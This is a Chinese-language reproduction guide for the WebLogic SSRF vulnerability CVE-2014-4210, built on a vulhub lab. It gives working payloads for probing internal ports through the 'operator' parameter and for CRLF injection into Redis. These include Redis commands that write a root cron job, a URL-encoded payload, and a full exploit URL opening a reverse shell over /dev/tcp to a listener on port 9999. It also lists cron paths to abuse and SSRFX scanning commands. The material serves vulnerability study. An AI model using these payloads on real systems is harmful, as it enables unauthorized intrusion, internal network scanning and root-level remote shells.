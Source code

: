 # Weblogic SSRF漏洞 CVE-2014-4210

## 漏洞描述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件，此漏洞可通过HTTP协议利用，未经身份验证的远程攻击者可利用此漏洞影响受影响组件的机密性

## 漏洞影响

> [!NOTE]
>
> Oracle WebLogic Server 10.0.2.0
>
> Oracle WebLogic Server 10.3.6.0

## 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/ssrd
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可

![](image/weblogic-1.png)

## 漏洞复现

出现漏洞的 URL为 : http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp

 ![](image/weblogic-12.png)

使用 payload 进行探测, 将探测的位置写在 operator参数中

> [!NOTE]
>
> 注意需要知道内网 IP

```
http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://xxx.xxx.xxx.xxx:7001
```

通过查看报错内容来进行判断

 ![](image/weblogic-13.png)

存在的报错内容如图，关键字为 **404**, 例如把 **operator** 参数改成 **http://xxx.xxx.xxx.xxx:7000** 这样不存在的则报错内容如下图

 ![](image/weblogic-14.png)

通过这样的方法就可以探测内网的开放端口情况，例如内网中有一台主机 **IP：172.19.0.2** 开启了 **6379端口的redis服务**

![](image/weblogic-15.png)

如果访问的非http协议，则会返回**did not have a valid SOAP content-type**，这样通过错误的不同，即可探测内网状态。

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

发送三条redis命令，将弹shell脚本写入**/etc/crontab** 中：

```shell
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

接着再将请求进行 **url编码**, 

> [!NOTE]
>
> 注意，换行符是“\r\n”，也就是“%0D%0A”

```shell
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送payload

```shell
http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.19.0.3%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送后监听 **172.19.0.3 9999端口** 等待反弹shell

![](image/weblogic-16.png)

> [!NOTE]
>
> 最后补充一下，可进行利用的cron有如下几个地方：
>
> /etc/crontab 这个是肯定的
>
> /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
>
> /var/spool/cron/root centos系统下root用户的cron文件
>
> /var/spool/cron/crontabs/root debian系统下root用户的cron文件

## 漏洞利用POC

[GitHub脚本 CVE-2014-4210+Redis未授权访问](https://github.com/NoneNotNull/SSRFX)

```shell
存活扫描:
python SSRFX.py --url http://example.com/uddiexplorer/SearchPublicRegistries.jsp --app weblogic --network 172.16.5.0/24 --type livedetect

端口扫描:
python SSRFX.py --url http://example.com/uddiexplorer/SearchPublicRegistries.jsp --app weblogic --network 172.16.5.0/24 --type portscan
```

![](image/weblogic-17.png)

## Goby && POC

> [!NOTE]
>
> Weblogic SSRF漏洞 CVE-2014-4210

![](image/weblogic-18.png)